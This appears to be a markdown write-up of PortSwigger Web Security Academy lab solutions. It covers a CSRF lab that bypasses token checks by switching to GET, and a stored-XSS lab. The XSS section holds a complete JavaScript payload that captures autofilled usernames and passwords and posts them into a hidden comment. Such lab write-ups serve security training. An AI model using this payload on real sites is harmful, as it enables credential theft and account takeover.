


### CSRF where token validation depends on request method
In this lab we know that the CSRF token depend on the request method, so first of all, as usual, we inspect the request made to change the email address once logged in the lab:
<br><br>
We can see that the email address has changed (follow the redirect to see the final response of the server), now omitting the csrf parameter in the request we get an error:
<br><br>
Try to change the request method to use GET (right click on the request body and select <b>Change request method</b>):
<br><br>
It works even deleting the csrf parameter:
<br><br>
So now we can create our malicious payload and to be hosted on the exploit server body (change the yellow value according to your Lab ID):
<br><br>
Now click Store (1) to save the payload, then you can verify your exploit (2), then to solve the lab delivery the payload to the victim (3)

### Exploiting cross-site scripting to capture passwords
This is actually a funny and a challenging lab. Taking advantage of a XSS stored vulnerability we have to access the blog as administrator user. We know that the comment field is injectable, lets analyze the flow:
<br><br>

First of all I thought to use the classic approach: stealing authentication cookie, but since the lab's cookie is HttpOnly we cannot access it through JS:
<br><br>
Reading some hints we knew that if we set 2 inputs fields (username and password) in the comments of a post they will be filled automatically by the lab system before to execute our payload. Since my Burp version is Community I even cannot use Burp Collaborator, so the scenario I set it is to craft a payload that will submit a new comment containing the username and password collected whene a user (in this scenario of course this event is automated) visit the infected post. Following is the payload we will use in the comment field:
```
Username<input name=username id=username>
Password<input type=password id=password name=password onchange="pwn_usr()">
<script>
function pwn_usr() {
 var labId= '0aca008b0490873dc0c3c76000c0002a'; 
 var csrf = document.getElementsByName("csrf")[0].value;
 var secret_ = document.getElementById("username").value + ':' + document.getElementById("password").value;
 fetch('https://' + labId + '.web-security-academy.net/post/comment', {
   method: 'POST',
   body: 'csrf=' + csrf + '&postId=1&comment=This is amazing!<div style=visibility:hidden>' + secret_ + '</div>&name=zinzloun&email=zinzloun@libero.it&website='
  });
 };
</script>
```
When the password field is compiled the pwn_usr function is invoked, the function will create a new comment in the post with ID 3. Here we use the fetch JS API (https://www.w3schools.com/jsref/api_fetch.asp, remember that fetch is not supported in Internet Explorer 11 and earlier), to make the things a little bit obfuscated we will save the credentials in hidden div.
Lets create the malicious post comment:
<br><br>
Just waiting a minute and then visiting the comments in the post id number 3 we can verify that our exploit worked:
<br><br>
We can retrive the administrator password in the source of the page

### DOM XSS using web messages and a JavaScript URL

#### Lab

#### References
